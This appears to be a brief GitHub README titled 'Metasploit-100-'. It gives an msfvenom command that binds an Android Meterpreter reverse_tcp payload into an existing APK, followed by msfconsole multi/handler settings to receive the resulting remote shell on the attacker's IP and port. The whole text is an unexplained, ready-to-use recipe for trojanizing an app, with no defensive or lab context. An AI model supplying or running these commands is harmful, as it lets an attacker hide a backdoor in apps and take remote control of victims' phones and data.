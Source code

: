 # Metasploit-100-

## paylod:-


msfvenom -x (bind apk name) -p android/meterpreter/reverse_tcp LHOST=(your ip) LPORT=4444 R > /sdcard/apk_name.apk




## RAN WAY


msfconsole

use multi/handler 

set payload android/meterpreter/reverse_tcp 

set lhost (your ip) 

set lport (port number)

run
